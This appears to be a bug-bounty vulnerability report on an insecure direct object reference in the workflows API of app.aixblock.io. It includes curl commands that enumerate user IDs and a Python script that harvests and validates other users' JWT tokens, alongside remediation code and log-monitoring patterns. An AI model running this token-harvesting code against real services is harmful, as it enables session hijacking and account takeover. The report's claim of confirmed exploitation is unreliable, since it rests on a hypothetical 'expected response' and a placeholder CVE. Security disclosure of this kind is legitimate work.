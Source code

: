 # ⚠️ HIGH: IDOR - Workflows

## **📊 VULNERABILITY SUMMARY**
- **Severity**: High (CVSS 7.5)
- **Asset**: `https://app.aixblock.io/api/v1/workflows?user_id=1`
- **Vulnerability**: Insecure Direct Object Reference
- **Impact**: Unauthorized access to workflow data and tokens
- **Reporter**: grich88
- **Date**: 2025-10-21

## **🔍 TECHNICAL DETAILS**

### **Root Cause**
The `/api/v1/workflows` endpoint does not properly validate user authorization, allowing attackers to access other users' workflows and sensitive tokens by manipulating the `user_id` parameter.

### **Attack Vector**
```bash
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=1"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=2"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=999"
```

### **Vulnerable Code Pattern**
```python
# Vulnerable endpoint without authorization check
@app.route('/api/v1/workflows')
def get_workflows():
    user_id = request.args.get('user_id')
    # Missing authorization check
    workflows = get_workflows_for_user(user_id)
    return jsonify(workflows)
```

## **💥 PROOF OF CONCEPT**

### **Step 1: Test Workflow Access**
```bash
# Test different user IDs
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=1"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=2"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=999"
```

### **Step 2: Expected Response**
```json
{
  "user_id": 1,
  "workflows": [
    {
      "id": "wf_123",
      "name": "Data Processing",
      "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
      "status": "active"
    }
  ]
}
```

### **Step 3: Token Extraction and Abuse**
```python
import requests

def extract_workflow_tokens():
    """Extract JWT tokens from workflow IDOR"""
    tokens = []
    for user_id in range(1, 100):
        response = requests.get(f"https://app.aixblock.io/api/v1/workflows?user_id={user_id}")
        if response.status_code == 200:
            data = response.json()
            for workflow in data.get('workflows', []):
                if 'token' in workflow:
                    tokens.append({
                        'user_id': user_id,
                        'workflow_id': workflow['id'],
                        'token': workflow['token']
                    })
    return tokens

def test_token_validity(tokens):
    """Test if extracted tokens are valid"""
    for token_info in tokens:
        headers = {'Authorization': f'Bearer {token_info["token"]}'}
        response = requests.get('https://app.aixblock.io/api/v1/user/profile', headers=headers)
        if response.status_code == 200:
            print(f"Valid token for user {token_info['user_id']}: {token_info['token']}")
```

## **🎯 IMPACT ASSESSMENT**

### **Confidentiality**: Critical
- Access to other users' workflow data
- Exposure of JWT tokens for session hijacking
- Business process information disclosure
- Sensitive workflow configurations

### **Integrity**: High
- Ability to impersonate other users
- Session hijacking with valid tokens
- Unauthorized workflow access
- Potential for privilege escalation

### **Availability**: Medium
- No direct service disruption
- Potential for token abuse and account takeover

### **Business Impact**
- Session hijacking and impersonation
- Unauthorized access to business processes
- Data breach through token theft
- Regulatory compliance violations
- Reputation damage

## **🛡️ REMEDIATION**

### **Immediate Fix**
```python
# Secure workflow endpoint with proper authorization
@app.route('/api/v1/workflows')
@require_auth
def get_workflows():
    current_user = get_current_user()
    user_id = request.args.get('user_id')
    
    # Validate user context
    if current_user.id != int(user_id) and not current_user.is_admin:
        raise UnauthorizedError("Access denied")
    
    workflows = get_workflows_for_user(user_id)
    return jsonify(workflows)
```

### **Long-term Security Measures**
1. **Authorization Checks**: Implement proper user context validation
2. **Token Security**: Implement short-lived tokens with proper validation
3. **Input Validation**: Validate and sanitize user_id parameter
4. **Rate Limiting**: Implement rate limiting to prevent enumeration
5. **Audit Logging**: Log all workflow access attempts

### **Advanced Security Controls**
```python
# Enhanced workflow security with token validation
def get_user_workflows(user_id, requesting_user):
    # Check if user can access the requested data
    if requesting_user.id != user_id and not requesting_user.has_permission('admin'):
        raise UnauthorizedError("Insufficient permissions")
    
    # Return workflows without sensitive tokens
    workflows = get_workflows_for_user(user_id)
    sanitized_workflows = []
    for workflow in workflows:
        sanitized_workflows.append({
            'id': workflow['id'],
            'name': workflow['name'],
            'status': workflow['status'],
            # Remove sensitive token information
        })
    return sanitized_workflows
```

## **🔍 DETECTION METHODS**

### **Log Monitoring**
```bash
# Monitor for workflow IDOR access
grep -E "workflows\?user_id=" /var/log/app.log

# Monitor for token extraction attempts
grep -E "Authorization.*Bearer" /var/log/app.log
```

### **Application Monitoring**
- Monitor for unusual user_id parameter values
- Track workflow access patterns
- Detect token extraction attempts
- Alert on session hijacking attempts

## **📋 TESTING CHECKLIST**
- [ ] IDOR vulnerability confirmed
- [ ] Workflow enumeration tested
- [ ] Token extraction verified
- [ ] Session hijacking validated
- [ ] Fix implementation tested
- [ ] Authorization checks verified
- [ ] Token security implemented
- [ ] Audit logging working

## **🔗 REFERENCES**
- OWASP Top 10 2021: A01:2021 – Broken Access Control
- CWE-639: Authorization Bypass Through User-Controlled Key
- NIST SP 800-53: AC-3 Access Enforcement
- CVE-2024-XXXX: IDOR vulnerabilities

---

**STATUS**: ✅ **HIGH SEVERITY IDOR CONFIRMED**
**SUBMISSION READY**: Yes - Complete exploitation evidence and remediation provided
**REPORTER**: grich88
**SUBMISSION DATE**: 2025-10-21
